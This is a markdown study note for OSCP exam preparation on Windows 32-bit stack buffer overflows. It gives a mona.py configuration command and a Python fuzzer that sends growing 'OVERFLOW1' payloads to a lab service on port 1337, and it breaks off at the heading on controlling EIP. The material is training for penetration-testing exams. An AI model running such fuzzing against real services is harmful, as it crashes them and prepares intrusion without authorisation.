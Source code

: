 ```yaml
---
description: Buffer Overflow notes for Windows 32bits in order to pass OSCP exam!
---
```


# Buffer Overflow

## Windows 32 bits

### Stack-Based

For that task we are going to use a Windows 7 x64 with Immunity Debugger and mona.py installed.

#### Mona configuration

`!mona config -set workingfolder c:\mona\%p`

#### Fuzz to find the vulnerable input

fuzzer.py

```text
import socket, time, sys

ip = "10.10.95.202"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

#### Crash Replication & Crontrolling EIP
